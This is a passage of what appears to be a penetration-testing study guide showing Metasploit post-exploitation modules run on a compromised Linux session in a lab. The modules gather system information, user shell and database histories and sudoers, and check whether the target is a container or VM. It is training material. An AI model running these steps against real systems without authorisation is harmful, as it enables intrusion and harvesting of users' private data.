 ```bash
search enum_system
use post/linux/gather/enum_system
info
# Description:
#   This module gathers system information. We collect installed 
#   packages, installed services, mount information, user list, user 
#   bash history and cron jobs
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_system](.gitbook/assets/image-20230422125507452.png)

```bash
loot
# Check the installed packages on the O.S.

cat /root/.msf4/loot/20230422105452_Linux_PostExp_192.215.55.3_linux.enum.syste_557868.txt
```

- Check if the target is a VM or a **container**

```bash
search checkcontainer
use post/linux/gather/checkcontainer
# Description:
#   This module attempts to determine whether the system is running 
#   inside of a container and if so, which one. This module supports 
#   detection of Docker, LXC, and systemd nspawn.
set SESSION 3
run
	[+] This appears to be a 'Docker' container
```

![Metasploit - post/linux/gather/checkcontainer](.gitbook/assets/image-20230422125830993.png)

> 📌 *A Docker container can be exploited to break out of it and  gain access to the host system.*

- Enumerate **VM**

```bash
search checkvm
use post/linux/gather/checkvm
set SESSION 3
run
# The target is not a VM
```

![Metasploit - post/linux/gather/checkvm](.gitbook/assets/image-20230422130151548.png)

- Enumerate **users history**

```bash
search enum_users_history
use post/linux/gather/enum_users_history
# Description:
#   This module gathers the following user-specific information: shell 
#   history, MySQL history, PostgreSQL history, MongoDB history, Vim 
#   history, lastlog, and sudoers.
set SESSION 3
run

# If this doesn't work, migrate to a "NT AUTHORITY\SYSTEM" user service
```
